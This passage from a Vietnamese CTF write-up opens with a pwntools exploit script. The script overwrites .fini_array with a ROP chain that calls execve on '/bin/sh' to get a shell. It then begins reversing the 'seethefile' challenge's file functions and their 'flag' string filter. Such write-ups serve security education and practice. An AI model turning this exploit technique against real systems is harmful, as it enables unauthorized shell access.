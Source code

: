 ```python
def write(addr,data):
        p.recv()
        p.send(str(addr))
        p.recv()
        p.send(data)

input()
write(fini_array,p64(libc_csu_fini)+p64(main_addr))
write(fini_array+ 2*8,p64(pop_rdi) + p64(fini_array+ 11*8))
write(fini_array+ 4*8,p64(pop_rax) + p64(0x3b))
write(fini_array+ 6*8,p64(pop_rsi) + p64(0))
write(fini_array+ 8*8,p64(pop_rdx) + p64(0))
write(fini_array+ 10*8,p64(syscall) + b'/bin/sh\x00')
write(fini_array,p64(leave_ret))

p.interactive()
```

![image](https://hackmd.io/_uploads/BJEFHC1K1x.png)




## seethefile


reverse :  

ta sẽ có 4 option , openfile(),readfile(),writefile(),closefile()



openfile() :

nó sẽ mở 1 file mà ta nhập vào với quyền "r"  và chuỗi ta nhập vaò không chứa chuỗi "flag"

hàm strstr() :  tìm kiếm chuỗi "flag"  trong filename , nếu thấy thì trả về con trỏ đến vị trí đầu tiên , nếu không thấy sẽ trả về NULL 


![image](https://hackmd.io/_uploads/S1sxcyhx1g.png)

readfile() : 

nó kiểm tra con trỏ file FP , nếu FP null thì sẽ trả về 1 chuỗi , nếu không thì nó sẽ read 0x18F byte vào magicbuf
![image](https://hackmd.io/_uploads/rJJxsJhe1e.png)


writefile() :
![image](https://hackmd.io/_uploads/r1V23kheJe.png)

nó sẽ check xem trong chuỗi có chứa các chuỗi trên hay không , nếu có thì nó sẽ exit luôn 

- nếu không thì nó in thằng đó ra 

closefile() : chỉ đơn giản là đóng file 
